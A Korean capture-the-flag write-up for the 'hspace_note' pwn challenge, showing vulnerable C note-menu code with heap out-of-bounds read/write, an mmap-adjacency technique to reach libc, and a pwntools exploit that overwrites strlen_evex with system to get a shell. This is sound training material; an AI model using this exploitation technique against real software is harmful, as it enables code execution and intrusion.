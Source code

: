 # pwn-hspace_note

# Usage
- 2024.07#0

# Concept
- Heap Out-of-Bounds Read/Write
- MMAP_THRESHOLD

# Writeup

####  chall.py
hspace_babynote 문제를 읽으셨다면, 해당 코드에서 delete 기능만 제거됐습니다.

```c
    while (1){
        menu();
        int choice;
        printf(">> ");
        scanf("%d", &choice);
        switch (choice){
            case 1:
                add();
                break;
            case 2:
                edit();
                break;
            case 3:
                show();
                break;
            case 4:
                exit(0);
                break;
            default:
                puts("Invalid choice");
                break;
        }
    }
```
일반적인 노트 문제와 같이 add, edit, show 메뉴가 주어집니다.

```c
void add()
{
    int idx, lines;
    char buf[0x100];
    printf("Page: ");
    scanf("%d", &idx);
    if (idx < 0 || idx >= 20){
        puts("Invalid index");
        return;
    }
    printf("Lines: ");
    scanf("%d", &lines);
    if (lines < 0 || lines > 0x3000){
        puts("Invalid number of lines");
        return;
    }
    pages[idx] = (char*)malloc(lines*0x10ULL);
    printf("Note: ");
    read(0, pages[idx], lines*0x10ULL);
}

```
add 메뉴로 최대 20개까지 [사용자가 입력한 line * 0x10]의 크기로 청크를 할당하고 입력할 수 있습니다.


```c
void edit()
{
    int idx;
    printf("Page: ");
    scanf("%d", &idx);
    if (idx < 0 || idx >= 20){
        puts("Invalid index");
        return;
    }
    if (pages[idx] == NULL){
        puts("Invalid index");
        return;
    }
    char* cur = pages[idx];
    printf("Line: ");
    scanf("%d", &idx);
    cur += 0x10ULL*idx;
    printf("Note: ");
    read(0, cur, 0x10ULL);
}
```
edit 메뉴로 할당받은 청크부터 임의의 offset만큼 떨어진 주소에 0x10만큼 write할 수 있는 OOB Write 취약점이 주어집니다. (*Note: 음수 offset도 가능)

```c
void show()
{
    int idx;
    printf("Page: ");
    scanf("%d", &idx);
    if (idx < 0 || idx >=20){
        puts("Invalid index");
        return;
    }
    if (pages[idx] == NULL){
        puts("Invalid index");
        return;
    }
    char* cur = pages[idx];
    printf("Line: ");
    scanf("%d", &idx);
    cur += 0x10ULL*idx;
    printf("%s", cur);
}
```
마찬가지로 show 메뉴에서 할당된 청크로부터 임의의 offset만큼 떨어진 주소에서 0x10만큼 read할 수 있는 OOB 취약점이 주어집니다.

#### Exploit Scenario
정리해보면 힙 상에서 자유롭게 relative-read/write를 할 수 있는 상황입니다. 따라서 hspace_babynote처럼 할당한 청크를 해제할 수 있는 primitive가 있다면 free chunk의 포인터 정보를 leak/overwrite하는 방식으로 임의 코드를 실행할 수 있을 것입니다.

하지만 청크를 해제할 수 있는 방법이 아예 없기 때문에 힙 상에서 존재하는 청크들의 메타데이터를 아무리 자유롭게 조작해두어도 해제 및 재할당을 트리거할 수 없습니다. 따라서 해제된 청크의 포인터를 이용한 libc leak이나 임의 주소 할당을 통한 AAW를 달성하기 어렵습니다.

```
0x000055f26f843000 0x000055f26f844000 0x0000000000001000 0x0000000000003000 rw- /pwn-hspace_note/prob/for_organizer/chall
0x000055f2706ff000 0x000055f270720000 0x0000000000021000 0x0000000000000000 rw- [heap]
0x00007fee67ec3000 0x00007fee67ec6000 0x0000000000003000 0x0000000000000000 rw- <tls-th1>
0x00007fee67ec6000 0x00007fee67eee000 0x0000000000028000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/libc.so.6
```
mmap을 통해 chunk를 할당받는다면 이런 어려움을 우회할 수 있습니다. malloc에 MMAP_THRESHOLD(0x20000) 바이트 이상의 할당을 요청하면 mmap을 통해 청크가 할당됩니다. heap 영역이 다른 영역과 인접하지 않게 할당되는 것과 달리, mmap 영역(tls-th1)에 할당된 청크는 libc 영역과 바로 인접한 것을 확인할 수 있습니다.

따라서 mmap으로 청크를 할당받는다면 heap relative read/write를 libc relative read/write로 바꿀 수 있습니다. 이후에는 접근할 수 있는 아무 포인터로 libc base를 확인, system으로 strlen_evex를 덮고 printf("%s", '/bin/sh')를 호출하여 플래그를 얻을 수 있습니다.  

#### ex.py
```python
def exploit(p):
    offset = 0x246088
    
    add(0, 0x100, b"/bin/sh\x00"*0x10)
    add(1, 0x28000, b"A"*0x10) ## allocate by mmap
    show(1, offset)
    libc_base = u64(p.recv(6).ljust(8, b"\x00"))-0x1b32b0
    libc.address = libc_base
    log.info("libc_base: 0x{:x}".format(libc_base))
    system = libc.sym["system"]
    edit(1,offset, p64(system)+p64(system))
    show(0, 0)
    p.sendline("cat flag.txt")
    print(p.recv(0x100))
    p.interactive()
    return
```
